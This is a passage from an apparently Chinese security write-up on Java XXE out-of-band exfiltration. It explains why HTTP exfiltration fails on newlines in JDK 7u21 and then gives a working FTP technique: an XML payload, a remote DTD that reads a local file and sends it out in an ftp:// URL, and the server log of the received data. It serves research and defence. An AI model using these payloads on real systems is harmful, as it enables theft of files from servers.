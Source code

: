 ```
	at com.sun.org.apache.xerces.internal.parsers.XML11Configuration.parse(Unknown Source)
	at com.sun.org.apache.xerces.internal.parsers.XMLParser.parse(Unknown Source)
	at com.sun.org.apache.xerces.internal.parsers.DOMParser.parse(Unknown Source)
	at com.sun.org.apache.xerces.internal.jaxp.DocumentBuilderImpl.parse(Unknown Source)
```

这是因为在`rt.jar!/sun/net/www/http/HttpClient.class`中，JDK7u21

```java
public String getURLFile() throws IOException {
    String str = this.url.getFile();
    if (str == null || str.length() == 0) {
      str = "/";
    }

    if (this.usingProxy && !this.proxyDisabled) {
        //...
    }
    if (str.indexOf('\n') == -1) {
      return str;
    }
    throw new MalformedURLException("Illegal character in URL");
}
```

能够看到在处理httpURL的时候，如果字符串含有换行符(`\n`)就会直接抛出异常，而一般通过http外带基本只能拼接到url中，所以碰到需要往外带的数据含有换行符时就会失败

对`\n`的处理应该在比较早的版本就引入了，从commit中看到最早在05年的代码中就有这块处理，所以默认高版本Java应该是对url都有处理的

### FTP传输

xxe_ftp.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY % dtd PUBLIC "-//OXML/XXE/EN" "http://127.0.0.1:8080/ftp.dtd">
        %dtd;%ftp;%send;
        ]>
<ANY>xxe</ANY>
```

ftp.dtd

```xml
<!ENTITY % file SYSTEM "file:///D:/data.txt">
<!ENTITY % ftp "<!ENTITY &#37; send SYSTEM 'ftp://fakeuser:%file;@127.0.0.1:2121'>">
```

其中`%file;`的引用有两种方式，一个是在PASS字段引用，一个是在URL路径中引用，两种方式存在一定差异，具体可以见下面情况一分析

先来看触发XXE的过程中FTP客户端与服务端的交互

```
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS testdata'
info: FTP: recvd 'TYPE A'
info: FTP: recvd 'CWD .'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'EPRT |1|127.0.0.1|50130|'
info: FTP: recvd 'LIST'
```
